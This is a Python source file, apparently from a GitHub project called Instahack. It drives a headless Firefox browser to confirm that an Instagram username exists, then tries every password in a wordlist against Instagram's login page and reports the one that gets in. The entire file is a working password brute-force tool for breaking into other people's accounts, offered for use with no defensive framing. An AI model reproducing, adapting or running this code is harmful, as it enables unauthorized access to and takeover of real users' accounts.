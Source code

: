 https://github.com/Nastaran6616/Instahack.git
# coding=utf-8
import src.librarys as libs
from src.Mask import TextColor

class InstaHack(object):
    def __init__(self, username, wordlist, delay):
        self.username = username
        self.wordlist = wordlist
        self.delay    = delay

    def execute(self):
        print TextColor.CYAN + "[*] Checking username is exist ..." + TextColor.WHITE
        if self.UserCheck(self.username) == True:
            libs.sys.exit(
                TextColor.RED + TextColor.UNDERLINE +
                "[!] Username was not found!"
                + TextColor.WHITE
            )

        print TextColor.GREEN + TextColor.BOLD + "[+] Username found! Continuing..." + TextColor.WHITE
        libs.sleep(2)
        print TextColor.CYAN + "[*] Checking wordlist is exist ..." + TextColor.WHITE
        libs.sleep(1)
        if self.WordList(self.wordlist) == False:
            libs.sys.exit(
                TextColor.RED + TextColor.UNDERLINE +
                "[!] Wordlist was not found!"
                + TextColor.WHITE
            )

        libs.sleep(1)
        print TextColor.GREEN + TextColor.BOLD + "[+] Using %s seconds delay. defualt is 1 second"%(self.delay)
        print
        print TextColor.ENDC + "--------------Start to test ----------------"
        print
        self.BruteForce(self.username, self.wordlist, self.delay)

    def WordList(self, path):
        if libs.os.path.exists(path):
            print TextColor.GREEN + TextColor.BOLD + "[+] Wordlist added successfully!" + TextColor.WHITE
            return True
        else:
            return False

    def UserCheck(self, username):
        options = libs.Options()
        options.add_argument('--headless')
        driver = libs.webdriver.Firefox(options=options)
        try:
            driver.get("https://instagram.com/" + username)
            assert (("Sorry, this page isn't available.") not in driver.page_source)
            driver.close()
        except AssertionError:
            return True

    def BruteForce(self, username, wordlist, delay = str(1)):
        options = libs.Options()
        options.add_argument('--headless')
        driver = libs.webdriver.Firefox(options=options)
        driver.get("https://www.instagram.com/accounts/login/?force_classic_login")

        counter = 0
        pass_list = []
        with open(wordlist, 'r') as file:
            for line in file.readlines():
                password = line.strip("\n")
                try:
                    element_username = driver.find_element_by_name('username')
                    element_username.clear()
                    element_username.send_keys(username)

                    element_password = driver.find_element_by_name('password')
                    element_password.clear()
                    element_password.send_keys(password)
                    element_password.send_keys(libs.Keys.RETURN)
                    libs.sleep(int(delay))

                    if "Log in — Instagram" not in driver.title:
                        print TextColor.GREEN + \
                              "[+] Password found!: %s\n"%(pass_list[counter - 1]) + \
                              TextColor.WHITE
                        libs.sys.exit(0)
                    else:
                        print TextColor.WARNING + TextColor.BOLD + \
                              "[*]try:%d | Username: %s -> password: %s\n"%(counter + 1, username, password) + \
                              TextColor.WHITE
                        counter = counter + 1
                        libs.sleep(int(delay))
                        pass_list.append(password)

                except Exception:
                    if "Log in — Instagram" not in driver.title:
                        libs.sys.exit(
                            TextColor.GREEN + TextColor.UNDERLINE + \
                            "[+] password found!: %s" %(password) +
                            TextColor.WHITE
                        )
                    else:
                        libs.sys.exit(
                            TextColor.RED + TextColor.UNDERLINE + \
                            "Error please wait for 5-8 mins and try again" + TextColor.WHITE
                        )
